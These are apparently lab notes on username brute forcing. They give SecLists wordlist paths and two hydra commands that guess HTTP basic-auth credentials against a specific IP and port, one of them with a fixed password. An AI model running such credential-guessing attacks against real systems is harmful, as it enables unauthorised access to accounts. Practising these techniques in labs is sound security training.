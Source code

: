 # Username Brute Force

```shell-session
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```



```shell-session
/opt/useful/SecLists/Usernames/Names/names.txt
```

{% code overflow="wrap" %}
```
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```
{% endcode %}

{% code overflow="wrap" %}
```
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
{% endcode %}

